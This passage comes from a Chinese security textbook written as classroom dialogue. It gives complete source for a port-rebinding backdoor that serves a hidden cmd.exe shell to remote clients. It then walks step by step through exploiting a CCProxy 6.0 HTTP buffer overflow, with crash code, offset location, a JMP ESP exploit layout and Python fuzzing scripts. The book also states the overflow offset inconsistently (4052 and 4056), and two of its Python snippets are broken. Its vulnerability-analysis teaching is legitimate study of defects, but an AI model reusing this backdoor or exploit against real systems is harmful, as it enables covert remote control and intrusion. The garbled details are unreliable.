    //设置套接字选项，SO_REUSEADDR 选项就是可以实现端口重绑定的 
    //但如果指定了 SO_EXCLUSIVEADDRUSE，就不会绑定成功
    BOOL val = TRUE;
    if(setsockopt(ss, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0) 
    { 
        printf("error!setsockopt failed!\n"); 
        return -1; 
    } 
    //重新绑定,这里重新绑定 21 端口
    SOCKADDR_IN saddr;
    saddr.sin_family = AF_INET;
    saddr.sin_addr.s_addr = inet_addr(pszIp);
    saddr.sin_port = htons(21); 
    if(bind(ss, (SOCKADDR *)&saddr, sizeof(saddr)) == SOCKET_ERROR) 
    { 
        ret = GetLastError(); 
        printf("error!bind failed!\n"); 
        return -1; 
    } 
    listen(ss, 2); 
    //等待连接
    SOCKET clientFD;
    SOCKADDR_IN caddr;
    int nCaddrSzie; 
    nCaddrSzie = sizeof(caddr);
    clientFD = accept(ss, (struct sockaddr *)&caddr,&nCaddrSzie); 
    //连接之后，就和双管道后门完全一样了
    char Buff[1024];
    SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
    HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
    //建立匿名管道 1
    pipeattr1.nLength = 12; 
    pipeattr1.lpSecurityDescriptor = 0;
    pipeattr1.bInheritHandle = true;
    CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
    //建立匿名管道 2
    pipeattr2.nLength = 12; 
    pipeattr2.lpSecurityDescriptor = 0;
    pipeattr2.bInheritHandle = true;
    CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdInput = hReadPipe2;
    si.hStdOutput = si.hStdError = hWritePipe1;
    char cmdLine[] = "cmd";
    PROCESS_INFORMATION ProcessInformation;
    //建立进程 
    ret = CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
    /*
    解释一下，这段代码创建了一个 cmd.exe，把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换；cmd.exe 的标准输入用第二个管道的读句柄替换。如下：
     远程主机←入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程) 
     远程主机→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程) 
    */
    unsigned long lBytesRead;
    while(1)
    {
        //检查管道 1，即 CMD 进程是否有输出
        ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
        if(lBytesRead)
        {
            //管道 1 有输出，读出结果发给远程客户机
            ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
            if(!ret) break;
            ret=send(clientFD,Buff,lBytesRead,0);
            if(ret<=0) break;
        }
        else
        {
            //否则，接收远程客户机的命令
            lBytesRead=recv(clientFD,Buff,1024,0);
            if(lBytesRead<=0) break;
            //将命令写入管道 2，即传给 CMD 进程
            ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
            if(!ret) break;
        }
    }
    WSACleanup(); 
    return 0; 
}
```

“其实，关键就是下面这句：”

```
Setsockopt(ss, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0
```

“它把套接字‘ss’设为重用，这样就可重新绑定端口了。”

古风说道，“听起来很有意思和用处也！”

“嗯，这门课只懂得原理是远远不够的，实践才是关键。大家下去也亲自测试一下，并考虑提取成 ShellCode。”

“好哩！用汇编和 C 语言直接提取都没问题。”古风摩拳擦掌。

“下次课我们会继续深入讲解漏洞的发现和分析！”

“那些更是我们想知道的东东！好啊！”同学们都欢呼起来。

“今天的课就讲到这里。天气有点冷，大家多注意身体。放学！”

# 课后解惑

## 课后解惑

Q：EXE 文件里提取出来的 ShellCode 是一个字节一个字节分开的，如何更高效的自动生成“\x01\x02\x03\x04”的形式呢？

A：我们可采用替换的方式，把空格直接替换成“\x”；也可把字节粘贴在一个文件中，然后写一个程序，把每个字节加上“\x”标志后打印出来，完成规范化 ShellCode 的生成。比如下面这个程序就可读取 shellcode.txt 文本中的字符，然后生成规范的 ShellCode 数组：

```
#include<stdio.h>
int main()
{
    FILE *fp;
    fp = fopen("ww.txt", "r");
    char shellcode[5];
    int num = 0;
    printf("\"");
    while( fscanf(fp, "%s",shellcode) !=EOF )
    {
        num++;
        printf("\\x%s",shellcode);
        if(num % 16 == 0)
        {
            printf("\"\n\"");
        }
    }
    printf("\"\n");
    return 0;
}
```

Q：我们在 C 语言提取时，要在“工程”设置中去掉“/O2”选项，“/O2”是什么意思？

A：“/O2”表示优化，达到最大化速度。

Q：能讲一下其他的常见编译选项吗？

A：我们结合具体的设置来讲吧！Release 版下的设置如图 6－27。

在它的设置选项中，包括`/nologo /ML /W3 /GX /D "WIN32" /D "NDEBUG" /D "_CONSOLE" /D "_MBCS" /Fp"Release/GetShellCodeByC.pch" /YX /Fo"Release/" /Fd"Release/" /FD /c`

每一项的具体解释如下：

```
/ML：与 LIBC.LIB 链接
/W3：设置警告等级，这里是 3
/GX[-]?：启用 C++异常处理
/D{=|#}：定义宏
/D "WIN32"：定义 WIN32，表明是 WIN32 程序；
/D "NDEBUG"：没有调试信息
/D "_CONSOLE"：控制台程序
/D "_MBCS"：MBCS 字集
/Fp：命名预编译头文件
/Fp"Release/GetShellCodeByC.pch"：这里预编译头文件为 GetShellCodeByC.pch
/YX[file]：自动的.PCH 文件
/Fo：命名对象文件
/Fd[file]：命名.PDB 文件
```

而 Debug 版的设置如图 6－28。


可见选项包括：`/nologo /MLd /W3 /Gm /GX /ZI /Od /D "WIN32" /D "_DEBUG" /D "_CONSOLE" /D "_MBCS" /Fp"Debug/GetShellCodeByC.pch" /YX /Fo"Debug/" /Fd"Debug/" /FD /GZ /c`

和 release 版本的差别有：

```
/MLd：与 LIBCD.LIB 调试库链接，LIBCD.LIB 是调试版本
/Gm[-]：启用最小重新生成
/ZI：启用调试信息的“编辑并继续”功能
/Od：禁用优化
```

Q：好像有人在命令行下编程，那是如何实现的？

A：其实 VC 的本质是一个 C/C++编译器，而我们看到的界面，都是上层的东西。VC 的编译器程序是\VC98\Bin 目录下的 cl.exe，我们可在 DOS 环境下通过它来编译程序。步骤如下：先运行同目录下的 VCVARS32.bat，设置环境变量；然后就可执行 cl.exe，如 cl.exe ww.cpp ，就会生成 ww.exe。如果有必要，还可加上那些编译选项。

Q：防火墙的技术和实现原理是什么？

A：防火墙分企业级和个人防火墙两种。企业级的防火墙，实现思路要简单一点。一般的厂商都是利用公开源码的 Linux，重编译内核，加上安全选项，裁减加固，再做个用户界面，就可作为防火墙商品了。而 Windows 下的个人防火墙，反而还要麻烦一点，涉及到 HOOK 技术和底层驱动程序的开发。

Q：HASH 听起来很熟悉，有什么用处呢？

A：HASH 可用于高效查找，而且在数字签名中发挥了重要作用。

# 第七章、漏洞的发现、分析和利用

# 第七章、漏洞的发现、分析和利用

12 月，平安夜、圣诞节、元旦，接着就是寒假和春节。整个校园充满了一种节日的氛围和思亲的情绪。

“大家圣诞节准备怎么过啊？”老师喜欢在正式上课前聊聊别的，好让大家的注意力慢慢集中起来。

“我要美美吃上一顿，然后好好睡上一觉！”玉波鼓鼓嘴说。

大家都大笑起来。

“外国人的节有什么好过的，我要好好准备考试，然后回家过春节，与家人团聚！”古风认真的说道。

“对啊，老师，我们接着有很多门的期末考试呢，这门课……”宇强问道。

“嗯，我理解大家的意思！这门课需要真正的实践，要亲自编写才行。纸上的考试并不能检查出什么。而且平时大家也很认真，所以这门课就不进行期末考试了！”

“哦！太好了！”教室里一阵欢腾。

“我会在课中布置一点作业，大家在寒假里完成，下学期开学交来，作为考试的成绩。本学期最后两次课，涉及到一个大家感兴趣的东西——漏洞的发现、分析和利用。”

“好啊！终于讲到漏洞本身了！”大家都很高兴。

“呵呵，不过，我有言在先，难度比较大，也有点麻烦，大家可要仔细和耐心啊！我们先来看一个具体例子——CCProxy 软件的漏洞！”

# 7.1 CCProxy 漏洞的分析

## 7.1 CCProxy 漏洞的分析

“CCProxy 是个代理服务器，支持 HTTP、FTP、Telnet 等多种服务。当有多台主机，而只有一个公网出口时，可将 CCProxy 安装在出口主机上，作为一个代理服务器。其他机器就可通过连接 CCProxy 代理来访问外网。”

老师说：“这种结构特别适合小型网络和个人家庭的使用，典型的 CCProxy 配置如图 7－1。”

　　　

“哦！”宇强说道，“那我可以把妈妈打字用的那台 386 也连上网去，以后就不用争电脑打泡泡堂了。”

“寝室里上网也方便了！”大家纷纷说道。

# 7.1.1 CCProxy 的安装与设置

### 7.1.1 CCProxy 的安装与设置

“我们安装一个实际用用吧！安装过程很简单，如同一般软件的安装一样。安装完毕后，启动 CCProxy，其界面如图 7－2。”


“这个界面真是简单明了啊！”玉波瞪大了眼睛。

“是的，设计得很清晰，所有操作一看就知。我们自己设计软件时，也要注意界面的人性化。”老师说道，“如果要对 CCProxy 进行设置，点击工具栏上的‘设置’按钮，弹出设置对话框，如图 7－3。”


“所有常用的服务都已经配置好了。我们看，HTTP 代理服务采用的是 808 端口。所以在内部其他机器上，点击 IE 菜单的‘工具栏→Internet’选项，在弹出对话框中选择‘连接’选项卡，再点击‘局域网设置’，就可设置浏览器的代理为安装 CCProxy 主机的 IP，端口为 808，如图 7－4。”


“这下可以通过 CCProxy 代理浏览外面的网页了。”

“哦，好爽啊！”

“嗯，除了 808 端口，CCProxy 还开放了 1090、2121 等端口。CCProxy 6.0 版本有多处漏洞，这里我们就分析对 808 端口请求超长‘GET’字符串时，会引发的缓冲区溢出漏洞。”

# 7.1.2 漏洞的定位和利用

### 7.1.2 漏洞的定位和利用

“我们用 VC 写一个程序，往 CCProxy 的 808 端口发送超长字符串，其格式如下：”

```
GET \AAAAAAAAAAAAAA（4085 个 A） HTTP/1.0\x0D\x0A\x0D\x0A
```

“发送程序 4085byte.cpp（光盘有收录）比较简单，就是网络通信的客户端程序。给出源代码如下，大家可以再巩固一下 socket 编程。”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET s;
    int ret;
    char buf[5000];
    int i;
    int nLen;
    //初始化 wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    //建立 socket
    s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    //连接对方 808 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(808);
    server.sin_addr.s_addr=inet_addr("192.168.3.151");
    //连接！
    if (connect(s,(struct sockaddr *)&server,sizeof(server) ) < 0)
    {
        printf("connect error");
        return -1;
    }
    nLen = 0;
    strcpy(buf, "GET /");
    nLen += sizeof("GET /")-1;
    for(nLen; nLen<4080+5; nLen++)
    {
        buf[nLen] = 'A';
    }
    buf[nLen] = '\0';
    strcat(buf, " HTTP/1.0\x0D\x0A\x0D\x0A");
    nLen += sizeof(" HTTP/1.0\x0D\x0A\x0D\x0A")-1;
    //构造字符串后，发送
    send(s, buf, nLen , 0);
    printf("send OK!");
    closesocket(s); 
    WSACleanup(); 
    return 0;
}
```

“嗯，就是初始化→建 Socket→连接→发送！”宇强总是能看透本质。

“对！请注意，发送数据的格式一定要保证正确，前导字符是‘GET /’，然后是大量的字符‘A’，而结束字符是‘HTTP/1.0\x0D\x0A\x0D\x0A’。这样才能让 CCProxy 认为是 HTTP 的请求，从而处理它。”

“哦！‘\x0D\x0A’代表什么呢？”古风问道。

“这是 HTTP 协议中规定的请求结束标志，具体可以参看 RFC 文档！”老师回答道，“我们发送给代理服务器后，CCProxy 发生缓冲区溢出，就会弹出出错对话框，XP 下如图 7－5。”


“哎哟，和 Win2000 的不一样也，看不到出错时 EIP 的值！”玉波嚷道。

“不，我们也可以看。点击蓝色的字——‘请单击此处’。就可看到图 7－6 的报错框。其中第二排有 Offset：41414141’ 。表示执行 0x41414141，就是‘AAAA’的 16 进制！”


“哦，那还是和 Win2000 下的一样了！”宇强满意的说，“我们只需改变 buf 的赋值过程，分别定位千位、百位、十位和个位就可以了。”

“是的！”古风就要去改变程序了。

“等等，等等！”老师急阻止，“定位我们已经详细的讲过了，这里不是重点。具体的定位程序下来大家参考 CCProxy1.cpp、CCProxy2.cpp、CCProxy3.cpp、CCProxy4.cpp（光盘有收录），它们分别定位千位、百位、十位和个位。”

“大家下去可自己练习一下。通过它们，我们可定位出：从 4052 个 A 开始的地方就是返回点。当然，验证还是有必要的，我们把数组全部赋为 A，而 4052 开始的 4 个字节赋为 B，构造如下：”

```
for(i=0; i<4080; i++,nLen++)
buf[nLen] = 'A';
buf[4047+5] = 'B';
buf[4048+5] = 'B';
buf[4049+5] = 'B';
buf[4050+5] = 'B';
```

“重新启动 CCProxy，运行修改过后的测试程序。这次弹出的对话框如图 7－7，果然是 42424242 覆盖到了返回点。”


“证明的确是 4052 的地方覆盖了返回点。有了返回点的位置，写出利用程序简直就是轻车熟路了！”老师说道。

“是啊，我们覆盖 4052 个 A，然后是 JMP ESP 的地址，这个是……是……”玉波挠了挠后脑勺。

古风一口答道：“是 0x7FFA4512。”

“对！最后跟上 ShellCode，按照下面这个格式就行了。”

```
GET /AAAA(4052 个 A)… JMP ESP 地址 SHELLCODE HTTP/1.0
```

“嗯！是的。”老师补充道，“但因为覆盖了 4052 个字节，所以我们可以把 ShellCode 放在前面，而在 JMP ESP 的地址后放一个 JMP BACK 的指令，跳回到 ShellCode 中。格式就像这样：”

```
GET \ AAAA…AA ShellCode 0x7FFA4512 JMPBACK HTTP/1.0
```

大家都点头称是。

“4000 多个字节，不用实在浪费了，而且加在后面，反而可能会引发异常。好！ShellCode 用完成开端口功能的代码。我们构造出利用程序 JmpEspShell.cpp（光盘有收录）。执行！登陆成功！如图 7-8。”


# 7.1.3 漏洞的分析

### 7.1.3 漏洞的分析

“Yeah！成功！”大家都叫了起来，然后纷纷说道，“虽然成功利用过多次，但真的对一个新漏洞利用成功了，还是有点激动的，呵呵！”

“这很好啊！其实正是这些小小的成就，让你品尝到了努力成功后的喜悦。这样才能触动你的进一步发展，实现真正的成功。”老师说道。

“好了，进入我们的重头戏，来分析漏洞的成因吧！”

“好啊！这下可以看看实际程序中的漏洞是怎样出现的了。”大家高兴的说。

“首先启动我们的调试利器——SoftICE。”

“嗯，在 jmp esp 转换成 call ebx 的利用方式那里我们使用过，果然很强大！”古风真是好记性。

“这位同学记忆力真好！这里我们会进一步深入使用它。启动 CCProxy，再重新发送全‘A’的过长数据。

因为会产生异常，所以 SoftICE 就会捕获异常，自动弹出来。停在了下面这句话：”

```
001B : 41414141 INVALID
```

小知识：

SoftICE 默认情况下是开了异常捕获功能的。即有什么异常发生时，会自动激活 SoftICE。我们可使用指令 Fault on 和 Fault off 来打开或关闭异常捕获功能。

“ 001B : 41414141 INVALID 意思是 41414141 指向的指令非法。”老师解释道。

“哦！那些指令究竟是什么数据呢？”宇强进一步问道。

“在 SoftICE 下，我们输入 code on 命令显示机器码，就可以看到对应的地方全是 FFFF 数据。”

```
001B : 41414141 FFFF INVALID
```

“哦！”

“我们再看看上下左右相关的数据吧，输入 data 命令，就会出现一个数据窗口。然后输入 d eip ，就会在数据窗口中显示出如下的值。”

```
001B : 41414141 ？？ ？？ ？？　？？　？？ ？？
001B : 41414151 ？？ ？？ ？？　？？　？？ ？？
```

“上下左右都是非法的啊？”

“是的，因为没有代码加载在这个部分，所以系统默认填充 1，就是全 F。”老师解释道，“而我们的关键，就是要找到发生问题的那段程序。”

“我们看看现在堆栈里面的值，和前面类似，这里用命令 d esp ，就出现了现在堆栈数据的情况。”

```
esp ＝ 012A790C
0023:012A790C 41 41 41 41 41 41 41 41－4 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
0023:012A791C 41 41 41 41 41 41 41 41－4 41 41 41 41 20 48 54 AAAAAAAAAAAAA HT
0023:012A792C 54 50 2F 31 2E 30 0D 0A TP/1.0
```

“原 EIP 和堆栈都已被我们过长的数据覆盖，我们无法从现今的堆栈中找到问题代码的位置。”

“是啊！怎么办呢？”小倩着急的说道。

“我们先推理一下。现在 ESP＝012A790C，程序返回后，堆栈指针 ESP 会指向 012A790C；所以应该是某个函数（假设是函数 A）执行前把返回地址存在了 012A790C－4 或附近中；然后在函数 A 执行过程中作了无长度限制的字符串拷贝，使返回地址被覆盖成了我们发送的 41414141！”

“那个函数 A 就是有问题的函数；而无长度限制的字符串拷贝就是 Strcpy、Strcat 一类的操作。”

“哦，难道我们要猜测哪个函数 A 在 012A790C 附近中保存了返回地址？”宇强说道。

“非常正确！”老师特别高兴，“第一种方法：用 bpx 命令往 Strcpy、Strcat 等函数入口处设断点，然后返回函数 A 的空间，看是否会出现覆盖问题。”

“第二种方法，因为函数 A 会往 012A790C 附近写入返回地址，所以我们设置断点，在往 012A790C 这个地址写东西时中断下来，看能否找到有问题的函数 A。”

“我们这里用第二种方法。”

“退出 SoftICE，回到 Windows 下重新启动 CCProxy。再进入 SoftICE 输入 addr proxy ，表示进入进程空间；然后输入 bpmd 012A790C w ，表示往 012A790C 写东西时停下来。”

大家眼睛都看得直直的，小倩也在边听边记。

“好，设置完毕后，我们再运行攻击代码，这样，当往 012A790C 写入的时候，就会被 SoftICE 中断。”

“运行过程中，会有好几次中断，但显然都不是保存函数返回地址的操作，我们按 F5 继续让它执行。终于到了下面这句时，SoftICE 被中断弹出。”老师指住下面的指令说。

```
0040F2A0 : call 0040A410
```

“此时 ESP＝012A790C， 即先把返回地址保存在 012A790C 中，然后跳到 0040A410 函数内部执行。根据我们的猜测，相信就是这个函数在处理时，返回地址被覆盖了。”

“函数中究竟是什么东西导致错误了呢？我们跟进去看看吧！按 F8 动态跟踪进 0040A410 函数内部。”

“哎哟！这里全是反汇编的代码，怎么能看懂啊？”玉波嚷了起来。

“直接让你看出有问题的地方，的确比较困难。但我们是在动态跟踪啊！当有 Push push call 时，我们就知道这是在调用函数，然后可以通过 d 命令来查看参数究竟是什么。”

“我们实际来使用一遍吧！当执行到 0040A5F8： 55 push EBP 这句时，我们输入 d EBP ，发现压入的参数内容是：”

```
192.168.3.150 unknown Web GET /AAAAAAAAAAAAAAAAAAAAAAAAA
```

“哦！就是我们发送的字符串多了一些东西！”

“越来越近了！就要水落石出了吧！”大家议论纷纷。

“嗯！我们继续。接下来是这句指令：”

```
0040A5F9： 51 push ECX
```

“输入 d ecx 命令，发现内容是时间信息。为： 2004-11-25 16:46:56 。”

“下一句： 0040A601: PUSH 0046F110 。我们输入 d 0046F110 命令，发现是 [%s] %s 格式化串！”

“最后，PUSH edx，再 Call 一个函数。我们根据分析参数的内容，知道应该是执行下面类似的函数。”

```
wwspritnf ( edx,
    [%s] %s
    2004-11-25 16:46:56
    ### 192.168.3.150 unknown Web GET /AAAAAAAAAAAAAAAAAAAAAAAAA
)
```

“这个拷贝操作是把日期、时间和我们发送的过长字符串，拷贝到 EDX 指向的内存中；因为没有字符串长度的限制，所以把保存的 EIP 也覆盖了，从而导致溢出。”

“哦！原来漏洞真的是这样产生的啊！”同学们说道。

“我们通过代码来计算一下覆盖点的位置和长度。此时 EDX＝012A6904，为字符串保存的起始地址；而 ESP＝012A790C，为保存的函数返回地址。”

“两个位置相减，ESP－EDX＝012A790C－012A6904＝0x1008＝4104。那么，就是要覆盖 4104 那么长的字符串，才能到达函数返回地址。”

“刚才，我们定位得到的 A 的长度是？”老师问道。

“4056！”古风一口报了出来。

“哇！好记性！大家看看参数，除了我们的 A，还包括日期、时间、IP、unknow WEB 和 GET 等字符串，再加上格式化输出 [%s ] %s 中的‘['字符']’字符和一个空格，大家数数有多长！”

“嗯，一共是 48 个字节。”古风很快的数完后说道。

“对！所以我们覆盖的 A 正好是：分配空间－其他字符长度＝4104－48＝4056！”

“哦！原来是这样啊！”

“我们继续执行。果然，保存的 EIP 被覆盖；所以，就是这个函数的执行导致了缓冲区溢出，分析成功！”

小结漏洞分析过程：

1.启动有漏洞程序，启动 SoftICE 并打开异常捕获开关（默认打开）；

2.发送过长的字符串，引发程序的异常，SoftICE 弹出；

3.查看此时的 ESP 的值并记下，假设是 AAAA；

4.退回用户空间，重新启动漏洞程序；

5.按 CTRL＋D 进入 SoftICE，用 addr 命令进入程序空间；再用 bpmw AAAA w 设置写断点；

6.再次发送过长字符串；

7.SoftICE 会在往 AAAA 地址写操作时弹出来；我们可分析是哪一个函数在该点保存了返回地址；

8.跟入该函数；注意用 d 命令查看里面调用的各函数参数的值；当发现某个函数有我们发送的过长字符串和‘%s’一类的参数时，就仔细分析，多半是该操作的问题！从而分析清楚漏洞产生的原因。

# 7.2 黑盒法探测漏洞和 Python 脚本

## 7.2 黑盒法探测漏洞和 Python 脚本

“哇！好啊！”大家都情不自禁的鼓起掌来。

“怎么样？大家有收获吗？”老师向台下问道。

“有啊，不仅知道了程序有溢出漏洞，溢出点在哪个位置，还知道了为什么会有漏洞。”古风说道，“不仅知其然，还知道了其所以然！”

“看来实际的软件存在溢出漏洞，还是用了 Strcpy 这类没有限制长度的拷贝啊！”小倩眨了眨眼。

“嗯，更知道了调试分析漏洞的方法！”玉波满意的说道。

“对！这个才是最重要的！”老师笑着说，“这样，大家以后才能独自分析新的漏洞、新的特例。真正在解决问题中提高自己。”

“但，我感觉漏洞的发现还是有偶然性啊！”宇强说，“需要正好发这个包时，程序崩溃了，才能发现漏洞，要有好大的运气啊！”

“虽然的确有一定的偶然性，但只要我们按照一定的方法，遵循一定的规则，就可在尽量短的时间内，尽量多的发现存在的缺陷。”老师说道，“这就是测试的基本原理；而测试，分为黑盒测试和白盒测试两种。”

# 7.2.1 黑盒测试原理

### 7.2.1 黑盒测试原理

“黑盒法测试，是在不知道软件内部结构、程序流程和处理代码的情况下，从软件声称的功能出发，测试检测每个功能是否都能正常使用。”

“所以黑盒测试也称功能测试，它把程序看作一个不能打开的黑盆子，在完全不考虑程序内部结构和内部特性的情况下，在程序接口进行测试。”

“我们无法证明一个程序是正确的，哪怕是一个很简单的程序。”老师喝了口水后说道。

“唔？什么意思？”古风不解的问。

“因为我们要证明一个程序是正确的，就需要对所有的输入都证明，且得到正确的结果，而这是不可能的！”

“举个例子，比如，两个整数 a，b 的相加程序，z＝a＋b，这个简单吧？我们要验证其正确性，就得把 a，b 所有的取值都输入计算一遍，看输出的结果是否正确。”

“在 VC 里，整型的范围是 32 位，大概就是－2×10E9～＋2×10E9，所以计算机能表示的整数的个数大概是 4×10E9 个。对 a 和 b 两个整数来说，其取值的组合个数就是 4×10E9×4×10E9＝16×10E18 种！”

“假设我们 2 秒中验证一个测试数据，那么就需要 16×10E18/2＝8×10E18 秒＝25×10E10 年！就是 200 多亿年的时间！”

“啊！不算不知道，一算吓一跳！”玉波瞪大了眼镜。

“是啊！所以如果我们现在写一个 z＝a＋b 的程序并开始证明其正确性，那么就要等到 200 亿年之后才能宣布。200 亿年？宇宙可能都不存在了！”

“哈哈！是啊！”大家都笑了起来。

“而且测试不仅要考虑测试合法的输入，还要考虑非法的可能输入。所以理论上，测试情况应该有无穷多个！只用把这无穷多个都测试完毕了，我们才能证明某个软件是正确的！所以，测试不是为了证明软件是正确的，因为我们无法证明，而是为了尽可能的发现迄今为止没有发现的漏洞！”

“哦！”

“所以，测试是很讲究方法和策略的，以满足用尽可能少的用例和时间，发现尽可能多的漏洞。”“

小知识：

黑盒测试方法主要有等价类划分、边值分析、因果图、错误推测等。

等价类划分：把所有可能的输入数据划分成若干部分（子集），然后从每一个子集中选取少数具有代表性的数据作为测试用例。

边界值分析：因为大量的错误是发生在输入或输出范围的边界上，而不是发生在输入输出范围的内部，因此，针对各种边界情况设计测试用例，可以查出更多的错误。

因果图方法：考虑输入条件之间的联系、相互组合等。采用一种适合于描述对于多种条件的组合，相应产生多个动作的形式来考虑设计测试用例，这就是因果图（逻辑模型）。.

“比如，我们要对 CCProxy 处理 HTTP 协议的部分进行黑盒测试，就可以对 HTTP 协议进行分类。对协议的每一个字段分别测试长度要求的最小值和最大值；或按一定的比例增加测试字符串的长度。这样就争取用最少的测试用例发现漏洞。”

“哦！”

“而对于黑盒测试来说，首选是使用 Python 语言。”

# 7.2.2 Python 简介

### 7.2.2 Python 简介

“Python 是种脚本语言。使用简单，但功能很强大，特别是构造测试用字符串时很方便；而且集成了很多现成的应用协议，使用 Python 测试，很容易发现漏洞。”

小知识：脚本语言

脚本语言是类似 DOS 批处理、UNIX Shell 程序的语言。脚本语言不需要每次编译再执行，并且在执行中可很容易地访问正在运行的程序，甚至可动态修改正在运行的程序，适用于快速开发以及完成一些简单任务。解决问题需要诸如可变长度字符串等数据类型，这样的数据类型在脚本语言中十分容易，而 C 语言则需要很多工作才能实现。

“哎哟，第一次听说，还什么都不懂，怎么测试啊？”古风说道。

“呵呵，大家有了 C 语言的基础，使用 Python 简直是轻松之极。我们先来安装吧！要安装 Python 和 pyOpenSSL。在 Windows 环境下，当然安装 Windows 版本的 Python 了，推荐安装 Python 2.2.x 的版本，因为可以找到 For Python 2.2.x 的 Win32 编译版，比较方便。当然我们也可自己编译成 for Win 版，安装过程如图 7-9、图 7-10。”


“安装完毕后，我们任意新建一个文件，改成.py 后缀名，可以看见为 py 文件变为了一个蟒蛇图标，如图 7-11，说明 Python 安装成功。”

“hoho！图标好可爱啊！”小倩等几个女生说道。

“嗯，但其实和蟒蛇无关，命名是由 BBC 的‘Monty Python's Flying Circus’节目而得。不过使用起来，大家会感到它的确比较可爱。”


“我们点击‘开始→程序’里面的‘Python2.2→Python (command line)’，就可进入 Python 的解释程序界面，如图 7-12。”


“进入解释程序的环境后，解释程序处于交互状态。在这种状态下，系统提示输入下一个命令，这一般是三个大于符号（即>>>），如果键入文件尾符号——Windows 中为‘Control-Z’，就可正常退出解释程序，如图 7-13。”


“我们来看一个简单例子，看看怎么使用。”

“Hello World？”大家都知道一般的入门是写个 Hello World 程序。

老师一本正经的说：“不，这个太简单了，我们输出‘Hello，ww0830’吧！”

“晕！不是一样的啊！”

“呵呵，你们也可改成自己的名字啊！当看到自己的名字成功打印出来时，就会感到很有成就感，更能鼓励自己！Python 在输入提示符‘>>>’下时，是工作在交互模式。输入命令就会马上执行，然后又会等待输入下一条执行。我们输入 print 'hello ww0830! ' ，就会马上打出来，如图 7-14。”


“该交互模式可用于测试短小语句的执行效果；也可测试较大系统中的部分组件。但缺点是不能保存这些指令，如果要反复输入时也比较麻烦。所以，我们可用文本编辑器编辑命令，然后存为 py 后缀名的文件。以后就可以一直使用了。”

“我们打开记事本，输入如下命令：”

```
import sys
print sys.argv
```

“然后另存为 test.py。这两句指令输出该 py 文件执行时带的参数。我们在 DOS 提示符下运行，结果如图 7-15。”


“其实，Python 最方便的地方，一个是构造字符串，另一个是本身已经封装好了很多网络协议，我们可直接使用它来探测软件对网络协议的处理，以期望发现漏洞。”

“好了，介绍就到这里。我们实际用 Python 来写网络协议的测试用例吧！”

“啊！Python 的网络编程还不是很了解呢！”古风担心的说道。

“没关系，我会给出详细解释的。而且有了 C 语言编写网络程序的基础，你们会发现用 Python 的确很可爱。但关键的，还是要明白思路。”

# 7.2.3 实例——Python 探测 CCProxy 漏洞

### 7.2.3 实例——Python 探测 CCProxy 漏洞

“我们用 Python 来对刚才讲解的 CCProxy 漏洞进行探测和定位。”

“刚才使用 VC 编程进行探测时，构造超长字符串很麻烦，而且又要建 Socket，又要连接。但我们用 Python 写一个探测 CCproxy 漏洞的程序则非常简单，只需下面四句。”

```
>>> import httplib
>>> conn = httplib.HTTPConnection("192.168.3.151:808")
>>> a = 'A'*4080
>>>conn.request("GET",a)
```

“看，192.168.3.151 上的 CCProxy 崩溃了，定位报错框如图 7-16，就是 0x41414141 覆盖了函数返回点。测试完成！”


“啊？这就行了啊？”大家一愣，然后回过神来嚷道，“用 Python 写测试程序太容易了吧！”

“呵呵，是的，如图 7-17。”


“解释一下图 7-17，第一句‘import httplib’是加载 http 协议包，Python 封装了很多协议包，我们直接使用就可以了；第二句‘conn = httplib.HTTPConnection("192.168.3.151:808")’就是使用协议包里面的函数，连接目标机 192.168.3.151 的 808 端口；第三句‘a = 'A'*4080’构造 4080 长度的‘A’赋与变量 a，这是脚本的优势，直接用‘*’就可构造指定长度的字符串；最后一句是‘conn.request("GET",a)’，即把字符串 a 作为 http 的 get 请求发送过去。”

“进一步，我们用 Python 定位千位，只要发送如下字符串就可以了。”

```
import httplib
conn = httplib.HTTPConnection("192.168.3.151:808")
s = 'A'*1000+'B'*1000+'C'*1000+'D'*1000+'E'*80
conn.request("GET",s)
```

“报错对话框显示为 Offset: 45454545 ，说明千位是 0x45-0x41 = 4。如图 7-18。”

　　

“依次类推，我们可以定位十位，就是 4000 个 A，然后 10 个 A，10 个 B，10 个 C……程序如下：”

```
　　import httplib
　　conn = httplib.HTTPConnection("192.168.3.151:808")
　　s = 'A'*4000+A'*10+'B'*10+'C'*10+'D'*10+'E'*10+'F'*10+'J'*10+'H'*10
　　conn.request("GET",s)
```

“报错对话框显示为 Offset: 46464646 ，说明十位是 0x46-0x41 = 5。”

“最后定位个位。是在 4050 个 A 后，输入 A 到 J 十个字符，程序如下：”

```
　　import httplib
　　conn = httplib.HTTPConnection("192.168.3.151:808")
　　s = 'A'*4000+A'*50+'ABCDEFGHIJ'
　　conn.request("GET",s)
```

“这次报错对话框显示为 Offset: 47474747 ，说明个位是 0x47-0x41 = 6。返回点轻松定出，就是 4000＋50＋6＝4056，定位完成！”

“有了返回点，攻击利用程序的编写也很简单，把各个字符串段用‘＋’号连起来就 OK 了。攻击程序参看 CCProxy.py（光盘有收录）。我们测试，也成功！”

“哇！实在是太快、太方便了，就跟方便面一样！”玉波说道。

